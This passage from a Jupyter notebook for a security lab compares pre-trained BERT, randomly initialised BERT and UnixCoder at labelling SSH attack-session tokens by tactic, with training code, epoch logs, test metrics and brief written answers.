    test_dataloader=bert_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="BERT Pretrained"
)

Evaluating BERT Pretrained:   0%|          | 0/7 [00:00<?, ?it/s]


BERT Pretrained Test Results:
Token Accuracy:   84.76%
Token Precision:  75.68%
Token Recall:     56.51%
Token F1 (Macro):  61.97%
Session Fidelity:  79.97%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_per_class_f1.png




In [46]:
# --- Plot per-class F1 scores for BERT ---
plot_per_class_f1(bert_results['per_class_f1'], "BERT Pretrained", save_path=save_dir)

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_confusion_matrix_normalized.png




In [47]:
# --- Normalized confusion matrix for BERT ---
plot_confusion_matrix(
    bert_results['predictions'],
    bert_results['labels'],
    id2label,
    "BERT Pretrained",
    normalize=True,
    save_path=save_dir,
)


### 3.2 Baseline: "Naked" BERT (No Pre-training)

**Instructions:**
- Load BERT architecture *without* pre-trained weights (random initialization).
- Train end-to-end and compare performance against the pre-trained version.

**Q:** How much does pre-training help compared to training from scratch?

Pre-training is clearly beneficial. The naked BERT baseline reaches **73.95% accuracy**, **44.17% macro F1**, and **75.06% session fidelity**, which is far below the pre-trained BERT macro F1 of **61.97%**. The gap is especially important because both models use the same architecture: the difference comes from the pre-trained language representation. With only a few hundred labeled sessions, learning the representation from scratch is not enough to match a pre-trained model.


In [48]:
# --- Load BERT model WITHOUT pre-trained weights (random initialization) ---
set_reproducible_seed(SEED)

# Get the configuration
bert_config = AutoConfig.from_pretrained(
    BERT_MODEL,
    id2label=id2label,
    label2id=label2id,
)

# Initialize model with random weights using the configuration
bert_naked_model = AutoModelForTokenClassification.from_config(bert_config)

total_params = sum(p.numel() for p in bert_naked_model.parameters())
print(f"'Naked' BERT Model (random initialization):")
print(f"  Total parameters: {total_params:,}")

'Naked' BERT Model (random initialization):
  Total parameters: 108,897,031


In [49]:
# --- Training configuration for Naked BERT ---
NAKED_BERT_LR = 5e-5
NAKED_BERT_EPOCHS = 40

naked_bert_optimizer = build_layerwise_optimizer(
    bert_naked_model,
    backbone_lr=NAKED_BERT_LR,
    head_lr_multiplier=1.0,
)

num_training_steps = NAKED_BERT_EPOCHS * len(bert_train_dataloader)
naked_bert_lr_scheduler = get_scheduler(
    "linear",
    optimizer=naked_bert_optimizer,
    num_warmup_steps=int(round(0.1 * num_training_steps)),
    num_training_steps=num_training_steps,
)


In [50]:
# --- Train Naked BERT model ---
set_reproducible_seed(SEED)
(
    naked_bert_best_model,
    naked_bert_train_losses,
    naked_bert_val_losses,
    naked_bert_val_f1_scores,
    naked_bert_val_accuracies,
    naked_bert_best_epoch,
    naked_bert_train_time,
) = train_model(
    model=bert_naked_model,
    train_dataloader=bert_train_dataloader,
    eval_dataloader=bert_eval_dataloader,
    optimizer=naked_bert_optimizer,
    lr_scheduler=naked_bert_lr_scheduler,
    n_epochs=NAKED_BERT_EPOCHS,
    device=device,
    id2label=id2label,
    model_name="Naked BERT",
)

print(f"\nTraining time: {naked_bert_train_time:.1f}s")
print(f"Selected checkpoint epoch: {naked_bert_best_epoch + 1}")


Training Naked BERT:   0%|          | 0/520 [00:00<?, ?it/s]

Epoch 01/40 | train_loss=1.7497 | val_loss=1.3299 | val_macro_f1=0.1890 | val_accuracy=0.5176
Epoch 02/40 | train_loss=1.3293 | val_loss=1.0246 | val_macro_f1=0.2504 | val_accuracy=0.6704
Epoch 03/40 | train_loss=1.2065 | val_loss=1.0201 | val_macro_f1=0.3195 | val_accuracy=0.6935
Epoch 04/40 | train_loss=0.9930 | val_loss=1.0204 | val_macro_f1=0.3270 | val_accuracy=0.7250
Epoch 05/40 | train_loss=1.1106 | val_loss=0.8222 | val_macro_f1=0.3249 | val_accuracy=0.6525
Epoch 06/40 | train_loss=0.7991 | val_loss=0.7064 | val_macro_f1=0.3655 | val_accuracy=0.7178
Epoch 07/40 | train_loss=0.6583 | val_loss=0.7800 | val_macro_f1=0.4294 | val_accuracy=0.7198
Epoch 08/40 | train_loss=0.5824 | val_loss=0.6989 | val_macro_f1=0.4492 | val_accuracy=0.7178
Epoch 09/40 | train_loss=0.6095 | val_loss=0.6383 | val_macro_f1=0.4457 | val_accuracy=0.7425
Epoch 10/40 | train_loss=0.5375 | val_loss=0.5739 | val_macro_f1=0.5210 | val_accuracy=0.7886
Epoch 11/40 | train_loss=0.4228 | val_loss=0.6918 | val_macr

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/naked_bert_losses.png




In [51]:
# --- Plot Naked BERT training progress ---
plot_training_stats("Naked BERT", naked_bert_train_losses, naked_bert_val_losses,
                    naked_bert_best_epoch, save_path=save_dir)

In [52]:
# --- Evaluate Naked BERT model on test set ---
naked_bert_results = evaluate_model(
    model=naked_bert_best_model,
    test_dataloader=bert_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="Naked BERT"
)

Evaluating Naked BERT:   0%|          | 0/7 [00:00<?, ?it/s]


Naked BERT Test Results:
Token Accuracy:   73.95%
Token Precision:  67.68%
Token Recall:     41.08%
Token F1 (Macro):  44.17%
Session Fidelity:  75.06%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/naked_bert_per_class_f1.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/naked_bert_confusion_matrix_normalized.png




In [53]:
# --- Plot per-class F1 scores for Naked BERT ---
plot_per_class_f1(
    naked_bert_results['per_class_f1'],
    "Naked BERT",
    save_path=save_dir,
)
plot_confusion_matrix(
    naked_bert_results['predictions'],
    naked_bert_results['labels'],
    id2label,
    "Naked BERT",
    normalize=True,
    save_path=save_dir,
)


### 3.3 UnixCoder Fine-tuning

**Instructions:**
- Fine-tune `microsoft/unixcoder-base`.
- Compare performance with BERT.

**Q:** Does the code-specific pre-training yield better results on SSH logs?

Yes. UnixCoder is the best full fine-tuned model in this run. It reaches **87.10% token accuracy**, **73.50% macro F1**, and **86.29% session fidelity**, improving over pre-trained BERT by **+2.34 accuracy points**, **+11.53 macro-F1 points**, and **+6.32 fidelity points**. This supports the hypothesis that code-oriented pre-training is useful for SSH logs: the input is not natural prose, but a sequence of shell commands, flags, paths, encoded strings, and separators. UnixCoder provides a better prior for this structure.


In [54]:
# --- Prepare UnixCoder tokenizer and data ---
unixcoder_tokenizer = AutoTokenizer.from_pretrained(
    UNIXCODER_MODEL,
    add_prefix_space=True,
    use_fast=True,
    model_max_length=512,
)

# Use the same label-expansion policy as BERT, as required by Figure 1.
tokenize_unixcoder = create_tokenize_and_align_function(
    unixcoder_tokenizer, label_all_tokens=True
)

unix_tokenized_datasets = encoded_dataset.map(
    tokenize_unixcoder,
    batched=True,
    remove_columns=original_columns,
)

print("UnixCoder Tokenized Dataset:")
print(unix_tokenized_datasets)


Map:   0%|          | 0/202 [00:00<?, ? examples/s]

Map:   0%|          | 0/49 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

UnixCoder Tokenized Dataset:
DatasetDict({
    train: Dataset({
        features: ['input_ids', 'attention_mask', 'labels'],
        num_rows: 202
    })
    valid: Dataset({
        features: ['input_ids', 'attention_mask', 'labels'],
        num_rows: 49
    })
    test: Dataset({
        features: ['input_ids', 'attention_mask', 'labels'],
        num_rows: 108
    })
})


In [55]:
# --- Create DataLoaders for UnixCoder ---
unix_data_collator = DataCollatorForTokenClassification(tokenizer=unixcoder_tokenizer)

unix_train_dataloader = DataLoader(
    unix_tokenized_datasets["train"],
    shuffle=True,
    collate_fn=unix_data_collator,
    batch_size=BATCH_SIZE,
)
unix_eval_dataloader = DataLoader(
    unix_tokenized_datasets["valid"],
    collate_fn=unix_data_collator,
    batch_size=BATCH_SIZE,
)
unix_test_dataloader = DataLoader(
    unix_tokenized_datasets["test"],
    collate_fn=unix_data_collator,
    batch_size=BATCH_SIZE,
)

In [56]:
# --- Load pre-trained UnixCoder model ---
unixcoder_model = AutoModelForTokenClassification.from_pretrained(
    UNIXCODER_MODEL,
    id2label=id2label,
    label2id=label2id,
)

total_params = sum(p.numel() for p in unixcoder_model.parameters())
print(f"UnixCoder Model:")
print(f"  Total parameters: {total_params:,}")

pytorch_model.bin:   0%|          | 0.00/504M [00:00<?, ?B/s]

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


UnixCoder Model:
  Total parameters: 125,344,519


In [57]:
# --- Macro-F1-aware search setup for UnixCoder ---
UNIX_GRID_SEARCH = {
    'learning_rates': [5e-6, 1e-5, 2e-5],
    'epochs': [40],
    'max_trials': 3,
}

unix_sqrt_class_weights = compute_sqrt_inverse_class_weights(
    train_df_final,
    label2id,
    max_weight=3.0,
)
unix_weight_table = pd.DataFrame({
    'Label': [id2label[index] for index in range(len(id2label))],
    'Sqrt-inverse weight': unix_sqrt_class_weights.numpy(),
})

def build_unixcoder_model():
    return AutoModelForTokenClassification.from_pretrained(
        UNIXCODER_MODEL,
        id2label=id2label,
        label2id=label2id,
    )

print("UnixCoder standard grid-search space:")
print(UNIX_GRID_SEARCH)
print("\nModerate train-only class weights for the additional trial:")
display(unix_weight_table)


UnixCoder standard grid-search space:
{'learning_rates': [5e-06, 1e-05, 2e-05], 'epochs': [40], 'max_trials': 3}

Moderate train-only class weights for the additional trial:


,Label,Sqrt-inverse weight
0,Defense Evasion,1.303747
1,Discovery,0.302682
2,Execution,0.405116
3,Impact,1.298664
4,Not Malicious Yet,1.464832
5,Other,1.534810
6,Persistence,0.690149


In [58]:
# --- Train UnixCoder: fair standard-loss comparison + auxiliary trial ---
_t0 = time.time()
(
    unix_standard_best_entry,
    unix_standard_grid_df,
    unix_standard_history,
) = run_lightweight_grid_search(
    model_builder=build_unixcoder_model,
    train_dataloader=unix_train_dataloader,
    eval_dataloader=unix_eval_dataloader,
    learning_rates=UNIX_GRID_SEARCH['learning_rates'],
    epoch_candidates=UNIX_GRID_SEARCH['epochs'],
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder",
    max_trials=UNIX_GRID_SEARCH['max_trials'],
    head_lr_multiplier=5.0,
    warmup_ratio=0.1,
    loss_name='standard',
)

# This additional trial studies imbalance mitigation, but it is not used for
# the official BERT-vs-UnixCoder comparison or for selecting the backbone.
(
    unix_weighted_best_entry,
    unix_weighted_grid_df,
    unix_weighted_history,
) = run_lightweight_grid_search(
    model_builder=build_unixcoder_model,
    train_dataloader=unix_train_dataloader,
    eval_dataloader=unix_eval_dataloader,
    learning_rates=[unix_standard_best_entry['learning_rate']],
    epoch_candidates=UNIX_GRID_SEARCH['epochs'],
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder (auxiliary weighted-loss trial)",
    max_trials=1,
    head_lr_multiplier=5.0,
    warmup_ratio=0.1,
    class_weights=unix_sqrt_class_weights,
    loss_name='sqrt-inverse',
)

unix_best_entry = unix_standard_best_entry
unix_weighted_best_entry['best_model'].to('cpu')

unix_grid_df = (
    pd.concat(
        [unix_standard_grid_df, unix_weighted_grid_df],
        ignore_index=True,
    )
    .sort_values(
        ['val_macro_f1', 'val_accuracy', 'val_loss'],
        ascending=[False, False, True],
    )
    .reset_index(drop=True)
)
unix_grid_history = unix_standard_history + unix_weighted_history
unix_grid_search_time = time.time() - _t0

unix_best_model = unix_best_entry['best_model']
unix_train_losses = unix_best_entry['train_losses']
unix_val_losses = unix_best_entry['val_losses']
unix_val_f1_scores = unix_best_entry['val_f1_scores']
unix_best_epoch = unix_best_entry['best_epoch']
unix_train_time = unix_best_entry['train_time']
UNIX_LR = unix_best_entry['learning_rate']
UNIX_HEAD_LR = unix_best_entry['head_learning_rate']
UNIX_EPOCHS = unix_best_entry['epochs']
UNIX_LOSS = unix_best_entry['loss_name']

unix_grid_results_path = os.path.join(
    results_path,
    'unixcoder_grid_search_results.csv',
)
unix_grid_df.to_csv(unix_grid_results_path, index=False)
print(f"Saved UnixCoder search table: {unix_grid_results_path}")
print(
    f"\nSelected UnixCoder config for the official comparison -> "
    f"base_lr={UNIX_LR:.0e}, head_lr={UNIX_HEAD_LR:.0e}, "
    f"loss={UNIX_LOSS}, checkpoint_epoch={unix_best_epoch + 1}"
)
print(
    "Auxiliary weighted trial -> "
    f"val_macro_f1={unix_weighted_best_entry['val_macro_f1']:.4f}; "
    "reported separately and excluded from model-family selection."
)
print(f"Selected-run training time: {unix_train_time:.1f}s")
print(f"Total UnixCoder search time: {unix_grid_search_time:.1f}s")



--- Grid Trial 1: UnixCoder | base_lr=5e-06 | head_lr=3e-05 | loss=standard ---


Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


model.safetensors:   0%|          | 0.00/504M [00:00<?, ?B/s]

Training UnixCoder | base_lr=5e-06 | head_lr=3e-05 | loss=standard:   0%|          | 0/520 [00:00<?, ?it/s]

...

Epoch 01/40 | train_loss=1.9625 | val_loss=1.3306 | val_macro_f1=0.1682 | val_accuracy=0.5498
Epoch 02/40 | train_loss=1.3003 | val_loss=0.7523 | val_macro_f1=0.2887 | val_accuracy=0.6788
Epoch 03/40 | train_loss=0.8624 | val_loss=0.5925 | val_macro_f1=0.3402 | val_accuracy=0.7293
Epoch 04/40 | train_loss=0.5425 | val_loss=0.4521 | val_macro_f1=0.4551 | val_accuracy=0.8083
Epoch 05/40 | train_loss=0.4081 | val_loss=0.3965 | val_macro_f1=0.5211 | val_accuracy=0.8475
Epoch 06/40 | train_loss=0.3015 | val_loss=0.4696 | val_macro_f1=0.6386 | val_accuracy=0.8662
Epoch 07/40 | train_loss=0.1847 | val_loss=0.3624 | val_macro_f1=0.6873 | val_accuracy=0.8879
Epoch 08/40 | train_loss=0.1306 | val_loss=0.4050 | val_macro_f1=0.7579 | val_accuracy=0.8940
Epoch 09/40 | train_loss=0.0951 | val_loss=0.4023 | val_macro_f1=0.7706 | val_accuracy=0.9009
Epoch 10/40 | train_loss=0.0838 | val_loss=0.3940 | val_macro_f1=0.7723 | val_accuracy=0.9001
Epoch 11/40 | train_loss=0.0681 | val_loss=0.3247 | val_macr

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] RobertaForTokenClassification LOAD REPORT from: microsoft/unixcoder-base
Key                 | Status     | 
--------------------+------------+-
pooler.dense.bias   | UNEXPECTED | 
pooler.dense.weight | UNEXPECTED | 
classifier.bias     | MISSING    | 
classifier.weight   | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly initialized because missing from the checkpoint. Consider training on your downstream task.


Training UnixCoder (auxiliary weighted-loss trial) | base_lr=2e-05 | head_lr=1e-04 | loss=sqrt-inverse:   0%| …

Epoch 01/40 | train_loss=2.1592 | val_loss=1.7126 | val_macro_f1=0.1849 | val_accuracy=0.5145
Epoch 02/40 | train_loss=1.7233 | val_loss=1.1520 | val_macro_f1=0.3097 | val_accuracy=0.6731
Epoch 03/40 | train_loss=1.2166 | val_loss=0.8805 | val_macro_f1=0.3775 | val_accuracy=0.7149
Epoch 04/40 | train_loss=0.7246 | val_loss=0.7287 | val_macro_f1=0.5280 | val_accuracy=0.7797
Epoch 05/40 | train_loss=0.4500 | val_loss=0.6149 | val_macro_f1=0.6551 | val_accuracy=0.8301
Epoch 06/40 | train_loss=0.2748 | val_loss=0.6655 | val_macro_f1=0.6862 | val_accuracy=0.8668
Epoch 07/40 | train_loss=0.1958 | val_loss=0.6516 | val_macro_f1=0.7572 | val_accuracy=0.8946
Epoch 08/40 | train_loss=0.1564 | val_loss=0.6703 | val_macro_f1=0.7518 | val_accuracy=0.8759
Epoch 09/40 | train_loss=0.0841 | val_loss=0.7596 | val_macro_f1=0.7592 | val_accuracy=0.8918
Epoch 10/40 | train_loss=0.0835 | val_loss=0.6466 | val_macro_f1=0.7929 | val_accuracy=0.9025
Epoch 11/40 | train_loss=0.0553 | val_loss=0.7111 | val_macr

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_lr_comparison.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_losses.png




In [59]:
# --- Plot UnixCoder validation behavior across learning rates ---
plot_grid_search_curves(
    unix_grid_history,
    unix_best_entry,
    "UnixCoder",
    save_path=save_dir,
)
plot_training_stats(
    "UnixCoder",
    unix_train_losses,
    unix_val_losses,
    unix_best_epoch,
    save_path=save_dir,
)


In [60]:
# --- Evaluate UnixCoder model on test set ---
unix_results = evaluate_model(
    model=unix_best_model,
    test_dataloader=unix_test_dataloader,
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="UnixCoder"
)

Evaluating UnixCoder:   0%|          | 0/7 [00:00<?, ?it/s]


UnixCoder Test Results:
Token Accuracy:   87.10%
Token Precision:  86.63%
Token Recall:     68.80%
Token F1 (Macro):  73.50%
Session Fidelity:  86.29%


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_per_class_f1.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/unixcoder_confusion_matrix_normalized.png


